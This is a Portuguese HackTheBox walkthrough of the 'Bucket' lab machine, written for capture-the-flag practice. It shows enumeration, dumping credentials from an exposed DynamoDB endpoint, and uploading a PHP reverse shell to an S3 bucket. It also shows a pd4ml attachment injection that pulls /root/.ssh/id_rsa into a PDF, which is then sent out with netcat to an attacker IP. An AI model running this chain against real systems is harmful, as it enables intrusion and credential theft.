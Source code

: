 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Bucket - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Y1obslX.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
awscli
curl
wfuzz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/4%OT=22%CT=1%CU=36786%PV=Y%DS=2%DC=T%G=Y%TM=5FF34D45
OS:%P=i686-pc-windows-windows)SEQ(SP=FD%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DS
OS:T11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 41.328 days (since Tue Nov 24 06:23:01 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   190.00 ms 10.10.14.1
2   192.00 ms bucket.htb (10.10.10.212)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a porta 80, somos redirecionados para o dominio: bucket.htb
Portanto, vamos adiciona-lo no arquivo de hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 'bucket.htb  10.10.10.212' >> /etc/hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Após isso conseguimos acessar a página web, após alguns testes, não foi possível encontrar outros diretórios e arquivos.

![Image](https://i.imgur.com/Wsd50kp.png)

Ao analisar o código fonte, podemos ver que possuimos um subdomain (s3):
![Image](https://i.imgur.com/tXc0CNj.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos tentar encontrar diretorios nele com o wfuzz:
![Image](https://i.imgur.com/VppmJzb.png)

Podemos encontrar 2 diretórios:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
health
shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o diretório shell, podemos perceber o serviço 'DynamoDB'.
![Image](https://i.imgur.com/RXhjaJf.png)


Para interagir com esse serviço, vamos utilizar a tool da própria AWS, conhecida como aws-cli

Após algumas horas lendo documentações, finalmente temos o comando correto para interagir:

![Image](https://i.imgur.com/Kiz6WsO.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

e b00m, temos o nome da tabela que está rodando lá :D
Vamos ver se conseguimos credenciais;


![Image](https://i.imgur.com/P3J8y29.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Temos credenciais :D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Ao tentar valida-las via SSH, nenhum login foi possível

Listando os arquivos e diretórios:

![Image](https://i.imgur.com/updbyQp.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws --endpoint-url http://s3.bucket.htb/ s3 ls
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso, tentamos fazer o upload de uma reverse shell para o servidor.
No nosso caso vamos utilizar a [shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) do 'Pentest Monkeys' 

![Image](https://i.imgur.com/VLLIuAS.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws --endpoint-url http://s3.bucket.htb/ s3 cp ./chu.php s3://adserver
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Em seguida usamos o curl para chamar nosso arquivo com a shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl http://bucket.htb/chu.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
w00t temos uma shell como www-data, vamos tentar melhorar nossa shell com python

![Image](https://i.imgur.com/24FbvOg.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import pty;pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, temos uma shell interativa e encontramos um novo usuário chamado 'Roy'
Portanto podemos testar as senhas já obtidas previamente para este usuário.

ee entãoo:

![Image](https://i.imgur.com/me6RqLL.png)

Agora vamos melhorar nossa shell logando via SSH com o usuário 'Roy'
![Image](https://i.imgur.com/0q73Xnv.png)


Após uma analise do que estava rodando na máquina, podemos perceber que o arquivo '/var/www/bucket-app/index.php' faz a criação de uma tabela e escreve um arquivo após a requisição correta.
![Image](https://i.imgur.com/LDuapI6.png)


Então, vamos tentar fazer a criação dessa tabela manualmente.
![Image](https://i.imgur.com/894o4iV.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 Agora que a tabela foi criada vamos escrever nosso arquivo desejado.
![Image](https://i.imgur.com/SOPFNoe.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}' --endpoint-url=http://s3.bucket.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Podemos validar se foi criado e escrito corretamente.
![Image](https://i.imgur.com/2UCnT06.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name alerts --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Precisamos fazer forward para conseguir enviar a requisição, então
![Image](https://i.imgur.com/ZAZDHJH.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh -L 8000:127.0.0.1:8000 roy@10.10.10.212
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora podemos fazer nossa requisição.

![Image](https://i.imgur.com/UshHUgt.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -X POST -d "action=get_alerts" http://127.0.0.1:8000/ -v
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


O arquivo agora foi criado na pasta /var/www/bucket-app/files/result.pdf
![Image](https://i.imgur.com/15FUBjs.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvn 10.10.14.218 443 < result.pdf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Agora transferimos o arquivo PDF contendo o arquivo que inserimos na tabela para nossa máquina, utilizando o netcat.

![Image](https://i.imgur.com/kwRhhHi.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vnlp 443 > result.pdf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após baixarmos o arquivo para nossa máquina, podemos abri-lo como PDF, e lá está, nosso arquivo (id_rsa)
![Image](https://i.imgur.com/TU7OLGp.png)

E então, salvamos o arquivo em nossa máquina com permissão 600 e assim podemos fazer o login como root!
![Image](https://i.imgur.com/wB66Uvu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
chmod 600 id_rsa
ssh root@bucket.htb -i id_rsa
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://docs.aws.amazon.com/pt_br/amazondynamodb/latest/developerguide/Tools.CLI.html
https://searchcloudsecurity.techtarget.com/feature/Hands-on-guide-to-S3-bucket-penetration-testing
https://blogs.perficient.com/2019/08/27/how-to-use-the-aws-api-with-s3-buckets-in-your-pen-test/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

